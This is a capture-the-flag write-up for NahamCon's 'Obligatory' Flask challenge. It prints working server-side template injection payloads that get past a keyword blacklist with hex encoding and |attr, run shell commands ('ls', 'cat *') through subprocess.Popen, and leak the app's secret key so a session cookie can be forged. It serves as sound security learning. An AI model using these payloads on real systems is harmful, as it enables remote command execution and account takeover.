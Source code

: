 # Obligatory
>Every Capture the Flag competition has to have an obligatory to-do list application, right???

## About the Challenge
This challenge was rated medium difficulty and ended up having 91 solves with its point value being 461/500 points.

## How to Solve
Upon opening the page we are greeted with a simple login form. Simply just create a user and login to reveal the actual challenge. Once logged in we are greeted with this screen: <br>
![Front page with todo list](images/Frontpage.jpg)
<br>

After adding a new task to the list the updated page can be seen here:<br>
![](images/taskCreated.jpg)
<br>

Two things are immediately eye-catching. The ``Task created`` being reflected in the URL as seen here ``http://challenge.nahamcon.com:31092/?success=Task%20created``. And also if we hover over the delete button on the task it calls the link ``http://challenge.nahamcon.com:31092/delete?id=2``. The interesting thing here being that the ID is 2 and not 1 or 0. This must mean that our objective is to read the task with the ID of 1. <br>

After looking around a bit I noticed the cookie ``auth-token`` which at first might look like a JWT token but after a little research it turns out to be a Flask cookie. We can confirm this using ``flask-unsign`` to decode the cookie:<br>
![Decoded cookie](images/Cookie.jpg)
<br>

From this we can see that we are logged in with the user that has the ID 2.
This also confirms our suspicion that another user exists and our goal is to become that user.<br>
Now the question is just how we become that? Our goal now is to forge a cookie that has the ID set to 1 instead 2. But in order to do this we need to know the secret key used within the Flask app.<br>

At first we tried to bruteforce the key locally using the wordlist ``rockyou`` but that didn't give us any hits so we have to find the key another way. Let's go back and look at the input that we had reflected back to us whenever we created the task in the first place.<br>

If we try to replace ``/?success=Task created`` with ``/?success={{7*7}}`` to test for Server Side Template Injection (SSTI) we can see that it returns ``49`` and therefore probes that SSTI is possible.<br>
![7*7 being executed on the server](images/SSTIProof.jpg)
<br>

This is great! Now we should just be able to read the configuration using ``{{config}}``. Except trying this payload returns this page:<br>
![Blacklist page](images/Blacklist.jpg)
<br>
Turns out that a blacklist is in place and we need to find a way around this.
My usual way of gaining SSTI file read is by recovering the ``object`` class and accessing ``builtins`` that way. But as we can see in the blacklist then ``builtins`` is blocked so it won't be that easy.

After a lot of research and testing it turns out that we can just use my usual way but by turning it into hex. We can for example take the payload ``{{"".__class__}}`` which should return the class ``string``. In this case it is blocked as ``class`` is blocked by the blacklist. But if we just convert most of it to hex and use ``|attr`` instead of dots to access attributes then we should be all good.
Doing this our new payload looks like this: ``{{%22%22|attr(%27\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%27)}}`` which does exactly as the previous payload except it bypasses the blacklist. After trying this payload on the website we can see that it returns the following:<br>
![String class returned](images/StringClass.jpg)
<br>
This means that our payload actually worked!<br>
Now knowing that we can just convert the words to hex we can change this payload:
``{{"".__class__.__base__.__subclasses__()}}`` into the hex equivalent:
``{{%22%22|attr(%27\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%27)|attr(%27\x5f\x5f\x62\x61\x73\x65\x5f\x5f%27)|attr(%27\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f%27)()}}``.<br>

Sending this to the webserver returns a very long list of subclasses:<br>
![Subclasses](images/Subclasses.jpg)
<br>

Now having access to the list of subclasses I wanted to find the class ``subprocess.Popen`` so that we could run shell commands on the server. I did this by searching the page for ``popen`` and copy pasting all classes before it into a regex that counts how many commas there. This gives us the index needed to call the class. In this case the index was ``411`` but it can vary. In order to craft this payload we would need the plaintext payload:
``{{"".__class__.__base__.__subclasses__()[411]('ls',shell=True,stdout=-1).('communicate')()}}``<br>
This would run the command ``ls`` on the server and return the result on the page. But since brackets like ``[`` and ``]`` are not permitted we will have to use the ``getitem`` attribute. <br>
Therefore our payload will look like this:
``{{%22%22|attr(%27\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%27)|attr(%27\x5f\x5f\x62\x61\x73\x65\x5f\x5f%27)|attr(%27\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f%27)()|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(411)(%27ls%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}``.<br>
After running this payload on server we get the list of files returned as seen here:<br>
![Files listed](images/Files.jpg)
<br>

From here since we can't use any dots I just decided to use the command ``cat *`` in order to read all the files in the current directory.<br>
The payload for that is the same as before but replacing ``ls`` with ``cat *``.
This gives us the following result:<br>
![File contents](images/Key.jpg)
<br>

All of this mess is all the files in the directory. The interesting thing here is the ``SECRET_KEY`` value which is set to ``&GTHN&Ngup3WqNm6q$5nPGSAoa7SaDuY``.<br>
Using this we can forge ourselves a new cookie in order to read the flag.
This can be done using ``flask-unsign`` as well:<br>
![Forged cookie](images/ForgedCookie.jpg)
<br>

Replacing our ``auth-token`` with this new cookie and refreshing the page reveals the flag!<br>
![Flag](images/Flag.jpg)
<br>
And we got it! ``flag{7b5b91c60796488148ddf3b227735979}``


## Reflection
Looking back at this challenge after the competition and reading other writeups it turns out that there are a lot of "better" or faster ways to solve this challenge. Another player managed to solve this challenge using a way insanely shorter payload than us. ``jmrcsnchz`` managed to simply solve the SSTI part using ``{{self|attr("\x5f\x5fdict\x5f\x5f")}}`` which is absolutely incredible! You can read more about their way of solving the challenge in their [writeup](https://github.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/blob/main/Obligatory/README.md).<br>

This just goes to show how many different solutions a challenge can have and how much they can differ. We definitely learned a bunch both during the challenge but also after when reading writeups and learning is always the most important part!


##### Written by Quack